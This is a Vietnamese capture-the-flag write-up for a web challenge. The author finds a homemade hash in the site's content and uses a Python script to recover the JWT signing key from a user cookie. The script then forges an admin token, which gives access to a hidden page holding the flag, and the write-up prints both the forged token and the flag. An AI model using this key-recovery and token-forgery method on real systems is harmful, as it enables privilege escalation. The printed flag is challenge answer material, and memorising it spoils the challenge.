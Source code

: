 ![image](https://github.com/user-attachments/assets/82b51914-7e59-4cbc-aa05-3552231cc769)

# **ANALYZE**

![image](https://github.com/user-attachments/assets/06093cb2-9bc1-42d4-8054-21e607967744)

Các chức năng của trang web có vẻ không có j nổi bật ngoài tạo tài khoản và xem các sản phẩm , 

Theo mô tả của đề bài thì mục tiêu của ta sẽ là cố gắng leo thang đặc quyền để trở thành admin.

ở trong tệp /robots.txt , tôi đã tìm thấy 1 số thứ khá hay ho -)) 

đây là 1 loại mã hóa khá đơn giản 
```
User-agent: * 
Disallow: 

# Gonna jot the encryption scheme I use down for later -The Incredible Admin
#
# def encrypt(inp):
#   enc = [13]
#   for i in range(len(inp)):
#     enc.append(ord(inp[i]) ^ 42)
#   return enc[1:]
```

và tôi đã tìm thấy mảnh ghép quan trọng thứ 2 để solve bài này ở mục product 

```
Revolutionary new Hashing Algorithm!!!
Made by our site's very own admin over many hours of work! It's so good that they decided to use it any time they need a hash!
        def has(inp):
            hashed = ""
            key = jwt_key
            for i in range(64):
                hashed = hashed + hash_char(inp[i % len(inp)], key[i % len(key)])
            return hashed

        def hash_char(hash_char, key_char):
            return chr(pow(ord(hash_char), ord(key_char), 26) + 65)
    
```

Từ 2 đoạn mã này , ta có thể hiểu rằng là : bài này chính là 1 dạng JWT , chúng ta sẽ phải sửa lại JWT để trở thành admin


sau khi tôi thử tạo 1 tài khoản bất kì , tôi đã nhận được 1 cookie : 
![image](https://github.com/user-attachments/assets/82dfecde-4a65-474a-9388-3fd40da1be32)

Và mục tiêu của chúng ta chính là đổi mục 
`"admin": "false"` trở thành   `"admin": "true"`

Và bên trên có chính là thuật toán mã hóa JWT tự chế của tác giả  -))
Bây giờ chúng ta phải từ cookie vừa có được , đi ngược lại để tìm ra được JWT-key

# **EXPLOIT**

Và tôi đã nhờ chatgpt viết script tự động hóa việc tìm ra jwt_key và gen ra cookie mới để leo thang đặc quyền lên admin : 

```
import base64
import json
import string

# ------------------------------------
# Helper functions

# Base64 URL-safe without padding
def b64url_encode(data):
    return base64.urlsafe_b64encode(data).decode().rstrip('=')

def b64url_decode(data):
    padding = '=' * (4 - len(data) % 4)
    return base64.urlsafe_b64decode(data + padding)

# hash_char from challenge
def hash_char(hash_char, key_char):
    return chr(pow(ord(hash_char), ord(key_char), 26) + 65)

# ------------------------------------
# Given JWT
jwt = "eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ICJzIiwgInBhc3N3b3JkIjogInMiLCAiYWRtaW4iOiAiZmFsc2UifQ.JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB"

header_b64, payload_b64, signature = jwt.split('.')

# inp = header_b64.payload_b64
inp = header_b64 + '.' + payload_b64

# ------------------------------------
# Brute force jwt_key

key_len = 64
possible_chars = string.printable  # All printable ASCII characters

jwt_key = ''

print("Brute forcing jwt_key...")
for i in range(key_len):
    target_char = signature[i]
    inp_char = inp[i % len(inp)]
    
    found = False
    for c in possible_chars:
        if hash_char(inp_char, c) == target_char:
            jwt_key += c
            found = True
            break
    
    if not found:
        print(f"[!] Could not find key_char for position {i}")
        jwt_key += '?'  # Placeholder in case of failure
    
    print(f"Position {i}: found key_char = {jwt_key[-1]!r}")

print(f"\nRecovered jwt_key:\n{jwt_key}")

# ------------------------------------
# Forge new JWT with admin=true

new_payload = {
    "username": "admin",
    "password": "whatever",
    "admin": "true"
}

# Re-encode
new_payload_b64 = b64url_encode(json.dumps(new_payload, separators=(',', ':')).encode())
new_inp = header_b64 + '.' + new_payload_b64

# Recompute signature
new_signature = ''
for i in range(64):
    new_signature += hash_char(new_inp[i % len(new_inp)], jwt_key[i % len(jwt_key)])

# Final forged JWT
forged_jwt = f"{header_b64}.{new_payload_b64}.{new_signature}"

print("\n[+] Forged JWT:")
print(forged_jwt)


```

kết quả trả về : 

```
eyJhbGciOiAiQURNSU5IQVNIIiwgInR5cCI6ICJKV1QifQ.eyJ1c2VybmFtZSI6ImFkbWluIiwicGFzc3dvcmQiOiJ3aGF0ZXZlciIsImFkbWluIjoidHJ1ZSJ9.JZOAYHBBBBNBDDQABXBFJOABZBLBBSOBVLBWVBQRSJJBOJYXDQZBEIRQBSOOFFWB
```
![image](https://github.com/user-attachments/assets/baa947c2-702b-4887-aa95-c3bc1b9dfdf1)

Sau khi ném JWT mới vào cookie thì ta đã vào được giao diện của admin : 

![image](https://github.com/user-attachments/assets/55750401-ad92-4f58-8100-86e5d8afd6d9)

Khi vào tới mục To-Do , ta thấy có 4 đoạn mã hex  :

![image](https://github.com/user-attachments/assets/d7ac612e-8bfe-4017-8f5d-56a531c5d4ac)

việc tiếp theo là dịch nó ra thì đơn giản rồi : 

```
[Line 1] Fix glitches
[Line 2] Advertise company
[Line 3] Create "business_secrets" page -- made it but no button to access yet
[Line 4] Take over the world -- almost done
```

Vậy có nghĩa là flag đang nằm ở path   `business_secrets`

![image](https://github.com/user-attachments/assets/05728476-2faa-4707-8c99-9778ec680509)



# **FLAG**

```
tjctf{buy_h1gh_s3l1_l0w}
```

